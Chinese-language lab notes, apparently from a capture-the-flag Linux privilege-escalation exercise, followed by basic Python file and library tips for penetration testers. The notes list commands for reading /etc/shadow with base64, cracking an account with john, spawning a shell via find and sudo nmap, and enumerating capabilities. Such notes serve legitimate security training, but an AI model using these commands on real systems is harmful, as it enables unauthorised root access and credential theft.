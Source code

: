### Task12 顶点挑战

/etc/passwd可以直接读取  
/etc/shadow可以利用base64(GTFObins)读取  
``````
文件读取
它从文件中读取数据，可用于执行特权读取或在受限文件系统之外泄露文件。
LFILE=file_to_read
base64 "$LFILE" | base64 --decode
``````
missy的账户可以用john爆破而root的账户不能  
flag1.txt和flag2.txt都可以利用base64(GTFObins)读取  

也可以利用find(GTFObins)读取flag2.txt
``````
壳
它可用于通过生成交互式系统 shell 来突破受限环境。
find . -exec /bin/sh \; -quit
``````
### 一些方法


如果您的用户对nmap具有 sudo 权限，您将如何使用Nmap生成 root shell？
sudo nmap --interactive

getcap 工具列出启用的功能:
``````
getcap -r / 2>/dev/null
``````

### 面向渗透测试人员的python

文件的读写：
``````
f = open("file_name", "r")
print(f.read())

f = open("demofile1.txt", "a") # Append to an existing file
f.write("The file will include more text..")
f.close()

f = open("demofile2.txt", "w") # Creating and writing to a new file
f.write("demofile2 file created, with this content in!")
f.close()
``````
在Python中，我们可以导入库，它们是包含函数的文件的集合。将导入库视为导入您可以使用的已为您编写的函数。例如，有一个“日期”库，可让您访问数百个与日期和时间相关的不同函数。
``````
import datetime
current_time = datetime.datetime.now()
print(current_time)
``````

以下是一些流行的库，您可能会发现在作为渗透测试人员编写脚本时很有用：

Request - 简单的HTTP库。  
Scapy - 发送、嗅探、解析和伪造网络数据包   
Pwntools - CTF 和漏洞利用开发库。  
